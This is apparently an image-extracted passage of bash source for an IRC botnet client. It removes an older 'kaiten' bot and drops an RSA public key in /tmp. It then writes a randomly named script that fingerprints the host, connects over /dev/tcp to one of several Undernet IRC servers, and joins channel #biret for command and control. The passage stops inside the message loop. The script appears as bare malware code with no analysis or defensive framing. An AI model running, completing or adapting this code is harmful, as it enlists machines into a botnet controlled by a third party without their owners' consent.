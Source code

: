 ```bash
rm -rf /var/tmp/kaiten

cat > /tmp/public.pem <<EOFMARKER
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC/ihTe2DLmG9huBi9DsCJ90MJs
glv7y530TWw2UqNtKjPPA1QXvNsWdiLpTzyvk8mv6ObWBF8hHzvyhJGCadl0v3HW
rXneU1DK+7iLRnkI4PRYYbdfwp92nRza00JUR7P4pghG5SnRK+R/579vIiy+1oAF
WRq+Z8HYMvPlgSRA3wIDAQAB
-----END PUBLIC KEY-----
EOFMARKER

BOT=`mktemp -u 'XXXXXXXX'`

cat > /tmp/$BOT <<'EOFMARKER'
#!/bin/bash

SYS=`uname -a | md5sum | awk -F' ' '{print $1}'`
NICK=a${SYS:24}
while [ true ]; do

  arr[0]="ix1.undernet.org"
  arr[1]="ix2.undernet.org"
  arr[2]="Ashburn.Va.Us.UnderNet.org"
  arr[3]="Bucharest.RO.EU.Undernet.Org"
  arr[4]="Budapest.HU.EU.UnderNet.org"
  arr[5]="Chicago.IL.US.Undernet.org"
  rand=$[$RANDOM % 6]
  svr=${arr[$rand]}

  eval 'exec 3<>/dev/tcp/$svr/6667;'
  if [[ ! "$?" -eq 0 ]] ; then
      continue
  fi

  echo $NICK

  eval 'printf "NICK $NICK\r\n" >&3;'
  if [[ ! "$?" -eq 0 ]] ; then
      continue
  fi
  eval 'printf "USER user 8 * :IRC hi\r\n" >&3;'
  if [[ ! "$?" -eq 0 ]] ; then
    continue
  fi

  # Main loop
  while [ true ]; do
    eval "read msg_in <&3;"

    if [[ ! "$?" -eq 0 ]] ; then
      break
    fi

    if  [[ "$msg_in" =~ "PING" ]] ; then
      printf "PONG %s\n" "${msg_in:5}";
      eval 'printf "PONG %s\r\n" "${msg_in:5}" >&3;'
      if [[ ! "$?" -eq 0 ]] ; then
        break
      fi
      sleep 1
      eval 'printf "JOIN #biret\r\n" >&3;'
      if [[ ! "$?" -eq 0 ]] ; then
        break
```